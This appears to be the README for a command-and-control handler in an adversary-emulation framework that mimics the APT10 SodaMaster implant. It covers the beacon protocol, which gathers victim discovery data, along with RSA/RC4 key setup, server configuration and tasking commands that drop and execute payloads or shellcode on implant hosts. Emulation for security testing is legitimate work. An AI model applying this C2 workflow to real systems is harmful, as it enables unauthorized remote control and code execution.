

# SodaMaster TCP Handler

The SodaMaster TCP Handler functions as the server-side counterpart to the SodaMaster implant, and communicates with it over TCP. The handler is configured to do the following:

- respond to implant beacons or task requests with the implant's session ID or tasks
- register a new implant with the control server, or indicate that a session already exists for the implant
- process the data returned after the implant completes tasks
- accept tasking from `evalsC2client.py` and send the tasks to the implant when requested



## Components

The handler consists of a TCP listener that listens on a specified address/port.

The first and second packets sent by the implant will contain the following discovery information:

- The username/owner of the SodaMaster process
- The hostname/computername of the system with the implant installed
- The process ID of the SodaMaster process and the process privilege flag
- Processor architecture and Windows build information
- The date/time that the implant was initially executed
- An RC4 key that will be used to encrypt the followup communications
- The name of the socket used to connect to the C2 server

After the implant has been registered with the C2 server, it will automatically set a task to receive the remainder of the discovery information from the implant. The UUID/Session ID for the implant will be generated by the C2 handler by taking the MD5 hash of the user and computer name. The C2 server will respond to the implant's initial packet with the generated UUID, which will be prepended onto implant packets for all subsequent communications.

The C2 handler will receive and respond to implant packets in the following format:

```
Session Identifier: HEX STRING - SODAMASTER  -> 534f44414d4153544552
ID (cmd id):  HEX - DECIMAL - w   -> 77 (Function uses the decimal form eg. 119)
LENGTH OF LENGTH: HEX - DECIMAL - 02   -> 3 (Tells the function the length is 3 string bytes long)
LENGTH:   HEX STRING - 0100   -> 10 (The data is 10 characters long)
DATA:   HEX STRING - 534f44414d4153544552 -> SODAMASTER
```

The implant's first packet will contain a unique identifier, any following packets after the implant's session has been registered will contain it's session ID. Example packets are listed below:

```
[IDENTIFIER (HEX STRING)] [ID (HEX - DECIMAL)] [LENGTH OF LENGTH (HEX-DECIMAL)] [LENGTH (HEX STRING - INT)] [DATA (HEX STRING)]

Example 1 (First Packet):
[SODAMASTER] [0x03] [0x01] [03] [Bob] [0x07] [0x02] [0100] [Desktop-PC]

Example 2 (Packets from implant with existing session):
[d820f689b2169e4157d67354c35b83a5] [0x99] [0x01] [03] [Bob] [0x07] [0x02] [0100] [Desktop-PC]
```

## Encryption

The first packet the implant sends is RSA encrypted. The packet will contain an RC4 key generated by the implant that will be used for subsequent encrypted communications between the implant and the server. All data in the packets will be encrypted. An example of the encrypted communications is below:

```
{RC4 [IDENTIFIER (HEX STRING)] [ID (HEX - DECIMAL)] [LENGTH OF LENGTH (HEX-DECIMAL)] [LENGTH (HEX STRING - INT)] [DATA (HEX STRING)] }

{RC4 [SODAMASTER][0x03][0x01][03][Bob][0x07][0x02][0100][Desktop-PC] }
```

Since all of the data sent by the implant will be encrypted, the C2 Handler will loop through all stored keys until it finds one that is successful. If none of the stored keys were able to decrypt the data, the implant packet will be dropped.

The RSA key pair used by the C2 server and implant were generated with the following commands:

```
openssl genrsa -out private.pem 2048
openssl rsa -in private.pem -outform PEM -pubout -out public.pem

# reformat public key for use with CryptoPP (on the implant)
openssl rsa -pubin -in public.pem -RSAPublicKey_out -out public_pkcs1.key -outform der

# To use private key in C2 handler unit testing
openssl pkey -in private.pem -traditional -out privatepkcs1.pem
```

## Usage

### Building

To build the control server binary, run the following command from the `evalsC2server` directory:

```
go build -o controlServer main.go
```

### Configuration

To enable and configure the SodaMaster TCP handler within the control server, provide a `sodamaster` entry in your handler configuration YAML file (see example below). Adjust the host and port values as necessary. To run the handler without encryption or for unit testing purposes, switch the `encryption` configuration to **false**.

Example:

```
sodamaster:
  host: 10.0.2.11
  port: 8080
  encryption: false
  enabled: true
```

Run the `controlServer` binary as `sudo` and monitor the output to see SodaMaster handler updates. Ex:

```
sudo ./controlServer -c ./config/your_handler_config.yml
```

### Testing

Unit tests for the SodaMaster TCP handler are available in the `sodamaster_test.go` file. To run these tests, run the following command from the `evalsC2server` directory:

```
sudo go test ./...
```

To run only a single test, navigate to the `evalsC2server\handlers\sodamaster` directory and run:

```
sudo go test -run NameOfTestFunction
```

### Tasking

To submit a task to the C2 server, pass the task information to the REST API server in a JSON dictionary string containing the following fields:

| Field | Data Type | Necessity | Description |
| ------------ | ----------- | ----------- |----------- |
| id | string | required | The ID of the task the implant will execute. A table detailing the different tasks is available below. |
| payload | string | optional | The name of the server-side payload to deliver as part of the task. |
| payloadPath | string | optional | The path to write the payload to on disk. |
| args | string | optional | Command line arguments for the implant to execute. Should only be supplied with task `s` (execute). |
| cmd | string | optional | Any information the implants needs to complete the task. Ie. for task `l` (sleep), the command would be the number of seconds to sleep |

The following table contains the various acceptable commands and their meanings:

| Command      | Length | Arguments | Implant Output | Description |
| -----------  | ------ | --------- | -------------- | ----------- |
| w | Variable | Message box title, Message box text | None | Pops up a message box on the implant host |
| x | 0 | NULL | None | Exit's the implant process |
| l | Variable | Beacon timer | None | Set the sleep time inbetween implant check-in's |
| s | Variable | Payload name, Payload path (optional), CLI arguments | Process output if CLI args are supplied | Compiles an execution template that will write a desired payload to disk and/or execute any provided CLI arguments. Payload path is an optional parameter (default is `C:/Windows/Temp`). Either the payload name AND/OR the CLI arguments have to be supplied. More details on the execution template used for the "s" command can be found [here](./template/README.md). |

Use the following format to submit the commands from the `evalsC2server` directory:

```
./evalsC2client.py --set-task <UUID> '{"id":"<id>", "payload":"<payload name>", "payloadPath":"<path/to/payload>", "args":"<args>", "cmd":"<commands>"}'
```

Example commands:

- "l": Will tell the implant to set its sleep to 15 seconds

  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"l", "cmd":"15"}'
  ```

- "w": Will tell the implant to pop a message box with text 'Hello World!'

  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"w", "cmd":"Hello World!"}'
  ```

- "s": Will recompile the execution template with 'payload.exe' and args 'whoami' and send the shellcode bytes to the implant to execute

  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"s", "payload":"payload.exe", "payloadPath":"C:/Windows/Temp", "args":"whoami"}'
  ```

### Troubleshooting

See [here](../../DebuggingGuide.md) for a guide on how to set up the Golang debugger on VS Code.

#### General
- Ensure the IP address and port in the handler configuration matches those the implant is compiled with.
- The handler is configured to discard any invalid/malicious data to avoid crashing, in the case of bad data the handler will throw an error message. Locate the error message in the source code and set a breakpoint in that function to debug the error.
- If the implant data is not formatted correctly (*length of length* or *length* incorrect, etc.), it will most likely error out [here](https://github.com/attackevals/evalsC2server/blob/dce97c97b2c8d41c3e2608e2e29a77179353c98e/handlers/sodamaster/sodamaster_utility.go#L64). If the handler throws an error in this function, follow the steps below to validate the data and ensure the implant is functioning correctly.
- There are several layers of b64 encoding and encryption on comms sent between the handler and implant that can potentially cause the data to be malformed- here are some tips to start debugging if the data appears invalid:
  - Set a breakpoint in `startListener` ([suggested line](https://github.com/attackevals/ael/blob/main/ManagedServices/menupass/Resources/control_server/handlers/sodamaster/sodamaster.go#L193))
    - Compare the `response` and `encryptedResponse` variables with the plain text data and encrypted data received by the implant, ensure this data matches
  - Set a breakpoint in `parseImplantData` ([suggested line](https://github.com/attackevals/ael/blob/main/ManagedServices/menupass/Resources/control_server/handlers/sodamaster/sodamaster.go#L560))
    - Compare the `data` and `encryptedData` variables with the plain text data and encrypted data sent by the implant, ensure this data matches
  - If the data sent/received by the handler does not match with the implant:
    - Ensure that the task string is being formatted correctly [here](https://github.com/attackevals/ael/blob/main/ManagedServices/menupass/Resources/control_server/handlers/sodamaster/sodamaster_utility.go#L102)
    - Ensure that the data is being encrypted/decrypted correctly [here](https://github.com/attackevals/ael/blob/main/ManagedServices/menupass/Resources/control_server/handlers/sodamaster/sodamaster_crypto.go)

#### Shellcode execution fails
- Set a breakpoint in the `formatShellcodeTask` utility function ([suggested line](https://github.com/attackevals/ael/blob/main/ManagedServices/menupass/Resources/control_server/handlers/sodamaster/sodamaster_utility.go#L122))
  - Check the `shellcode` variable for valid bytes, it is possible there was an error with generating the shellcode and the bytes are zeroed out
  - Check the beginning of the task string to make sure the `id`, `len of length`, and `length` variables all match what is received implant side

## CTI References

1. <https://securelist.com/apt10-sophisticated-multi-layered-loader-ecipekac-discovered-in-a41apt-campaign/101519/>
2. <http://jsac.jpcert.or.jp/archive/2022/pdf/JSAC2022_9_yanagishita-tamada-nakatsuru-ishimaru_en.pdf>
